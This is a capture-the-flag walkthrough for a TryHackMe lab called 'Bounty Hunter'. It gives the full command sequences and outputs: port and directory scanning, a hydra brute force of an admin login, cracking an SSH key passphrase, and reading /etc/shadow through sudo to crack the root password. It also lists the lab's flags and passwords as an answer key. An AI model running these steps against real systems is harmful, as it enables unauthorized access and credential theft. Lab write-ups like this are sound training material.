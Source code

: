 # Try Hack Me - Bounty Hunter

# TASK 1

setup variable IP for easy use
```bash
export IP=10.10.127.105
```

# TASK 2

```bash
nmap -sC -sV -oN nmap/initial $IP
```

Results

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 17:48 EDT
Nmap scan report for 10.10.127.105
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                 
|_http-title: Apache2 Ubuntu Default Page: It works                                          
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel             
```

Q. How many ports are open?
A. 2

Q. What version of SSH is running?
A. OpenSSH 7.6p1

Q. What version of Apache is running?
A. 2.4.29

Q. Which Linux distribution is running?
A. ubuntu

Q. What is the hidden directory?
A. /admin

```bash
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.127.105
```
results

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.127.105
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.127.105/admin                (Status: 301) [Size: 314] [--> http://10.10.127.105/admin/]   
```

# TASK 3

Q. What is the user:password of the admin panel?
A. admin:xavier

```bash
view source reveals "<!-- Hey john, if you do not remember, the username is admin -->"
```

lets fire up burpsuit to get the post format for username and password andf then use hydra again
```
user=admin&pass=password1
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.127.105 http-form-post "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"

```
Results
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-20 18:38:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.127.105:80/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[80][http-post-form] host: 10.10.127.105   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-20 18:39:12
```

Q. What is John's RSA Private Key passphrase?
A. 

after loging in you get a change to download john's private key and this "THM{brut3_f0rce_is_e4sy}"
Lets use john the ripper to attach this file

```bash
ssh2john id_rsa > myhash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt myhash.txt
```

Results
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:00 DONE (2025-06-20 18:58) 25.00g/s 1815Kp/s 1815Kc/s 1815KC/s saloni..rock14
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Q. user.txt
A. THM{a_password_is_not_a_barrier}

lets ssh in using the private key and password < don't forget to chmod first!

```bash
chmod 600 id_rsa
ssh -i id_rsa  john@10.10.127.105
```

Q. Web flag
A. THM{brut3_f0rce_is_e4sy} < this is the one from the admin html page. There's no web.txt!


# TASK 4

Q. What is the root's password?
A. football

Look for sudo privesc
```bash
sudo -l
```

cat is available!
lets grab the shadow password

```bash
sudo cat /etc/shadow
cat /etc/passwd
unshadow shadow passwd > mypasswd
john mypasswd
```
results

```
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
football         (root)     
1g 0:00:00:31 14.56% 2/3 (ETA: 19:25:11) 0.03176g/s 984.4p/s 1692c/s 1692C/s 1tintin..1morris
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

Q. root.txt
A. THM{pr1v1l3g3_3sc4l4t10n}

```bash
su root
# cat /root/root.txt

```

Done!



